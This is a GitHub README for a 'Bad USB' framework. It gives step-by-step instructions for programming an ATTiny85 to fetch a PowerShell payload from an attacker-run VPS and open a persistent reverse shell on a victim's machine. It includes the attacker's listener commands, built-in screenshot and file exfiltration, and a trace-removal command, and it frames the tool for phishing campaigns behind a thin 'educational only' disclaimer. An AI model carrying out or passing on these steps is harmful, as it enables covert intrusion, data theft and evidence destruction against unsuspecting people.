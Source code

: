 # The Bad USB Framework

## Changelogs

> 03/01/2025 - Making final changes to the project. Repo will be archived and no longer updated. Refer to the [product site](https://badusb.digitisedgarden.com) or [documentation site](https://docs.digitisedgarden.com/BadUSB.html) for more info. <br> 21/08/2024 - Revisited this project and want a proper close and end to it. So, this marks the final update to the guide and closure of the project. Minor updates will be posted.

## DISCLAIMER

This framework guide is intended for **educational purposes only!** Malicious use of this framework is **NOT** encouraged. If you wish to perform of the actions shown on property that you do not own, ensure you have prior approval from the rightful owner.

Remember: **Hack Responsibly.**

> Most of the payloads and scripts were not made by me. This is a collection of my favorite scripts out there and modified to suit this framework. To see the original creators, head over to the `Credits` section of this document.

## About The Framework

This framework is your one-stop-shop to get you up and running to create malicious USBs and start your phishing campaign using accessible and easy to obtain tools:

1. `ATTiny85 Micro Controller`
2. `Arduino IDE`
3. `Digital Ocean VPS`

With this guide you will be using this repository in your private VPS (we will be using Digital Ocean) and setting up your "hacker server".

## Pre-Requisites

You will need the following:

1. ATTiny85 Micro Controller USB Device (You can purchase one online for cheap or make your own. There are countless sellers and tutorials out there)
2. A [Digital Ocean](https://digitalocean.com) account
3. A computer. This guide is written with the use of [Kali Linux OS](https://kali.org) in mind, but it should work with any OS.

## Setting Up your PC

Firstly, we will set up your PC to program your ATTiny85.

1. **WINDOWS ONLY!** - Download and install the latest [Digistump Arduino Driver Release](https://github.com/digistump/DigistumpArduino/releases) by running `Install Drivers.exe`.
2. Download the latest version of [Arduino IDE](https://docs.arduino.cc/software/ide/).
3. After install, go to `File > Preferences` and under `Additional boards manager URLs` insert the following URL: `https://raw.githubusercontent.com/0xnarwhal/BadUSB/refs/heads/main/package_digistump_index.json`. If the link no longer works for some reason, I have included the file in this repository. If you can't troubleshoot something like this, please educate yourself first before continuing.
   1. ![File to Preference](./img/file_to_preferences.png)
   2. ![Additional Board Manager](./img/additional_boards_manager.png)
   3. > NOTE: If there is already a URL, you can insert multiple URLs by separating them with a semi-colon `;`.
4. Under `Tools > Board: > Board Manager`, select `Digistump AVR Boards` and install.
   1. ![Getting to Boards Manager](./img/install_digistump.png)
   2. ![Installing Digistump](./img/install_digistump2.png)
5. You're ready to program your ATTiny85!

## Setting Up your Attacker VPS

Before we start programming your malicious USB, for this guide, you are going to need to setup your attacker VPS.

You need to have the following on your VPS or attacker machine:

1. Python3

Setup a `Digital Ocean VPS Droplet` with Ubuntu LTS and perform a full upgrade.

Clone this repository into the droplet and go into the directory.

![The frameworks home directory](./img/home_directory.png)

### Modifying The Payload

There is only 1 file we need to modify for this demo: `./payloads/payload.ps1`.

Within the files, you will find `[IP_ADDRESS]` and `[PORT]`.

Change `[IP_ADDRESS]` to your VPS' public IP address and `[PORT]` to your preferred `netcat` port. Default is `4444`.

### Setting Up Payload File Server

Within the `payloads/` directory, host a simple HTTP server using Python3 using the following commands:

```bash
cd payloads
python3 -m http.server 80
```

![Hosting the file server.](./img/hosting_fileserver.png)

*Note: To run this HTTP server after you close the CLI, consider using `screen`. Documentation can be found [here](https://www.gnu.org/software/screen/manual/screen.html).*

## Programming the Bad USB

Now we can focus on programming your malicious USB. Back to your personal computer, under the `scripts` folder, it contains various Arduino scripts to get you started on your journey of programming bad USBs. For the sake of simplicity, we will be using `The-Go-To.ino` file. It is a script sequence to provide us, the attacker, a reverse shell instance from our victim.

1. To begin, select the correct board by selecting `Tools > Board > Digistump AVR Boards > Digispark (Default - 16.5mhz)`.
2. Copy and paste the script into the Arduino IDE.
   1. Be sure to change the `[FILE SERVER]` to your hacker machine IP address. For example: `http://999.999.999.999`. If the port is not port 80, specify the port as well.
3. Then click `Upload` and once prompted to plug in the USB, do so. It should take at most 5 seconds to program. Once done, remove the USB.
4. Now it is primed to be used at your own discretion. All you have to do is plug it in to your victim's machine.

## The Attack

Now all you need to do is plug in your `BadUSB` on your victim's machine and let the magic happen. On your attacker machine, you should be able to see a connection being made from the victims machine. This means that the payload has been downloaded and if all goes well you should be able to obtain a persistent reverse shell by running:

```bash
nc -lnvp 4444
```

![Reverse Shell](./img/netcat.png)

### Exploitations

From here you can perform tasks just as any other reverse shell. There are some additional commands as well:

1. `screenshot` (Returns a Base64 encoding of their screenshot. Pipe the output into a file and use `./exfiltrated_data/reverse_shell/Base62_Decoder.sh` to decode the files.)
2. `transfer` (Similar to `screenshot` but transfers files. **Must use absolute path.**)
3. `rm-all` (Removes connection and deletes all attacker files. Leaves no trace.)

### How to Save and Decode Screenshots and Extracted Files

Change to the `./exfiltrated_data/reverse_shell/` directory and run `netcat` here. Be sure to pipe the outputs into a file.

```bash
nc -lnvp 4444 | tee output
```

Once done, you can decode all the files and screeenshots using the following command:

```bash
bash ./Base62_Decoder.sh ./output
```

It will return with all the different files and you can view them as if they were the original.

## Moving On

This is just the start for you. Go crazy. But remember: **Hack Responsibly**. Have fun suckers - *narwhal*

## Credits

[AFNordal - Persistant Reverse Shell](https://github.com/AFNordal/powershell_reverseTCPshell)

[CedArctic - Various DigitSpark Scripts](https://github.com/CedArctic/DigiSpark-Scripts)
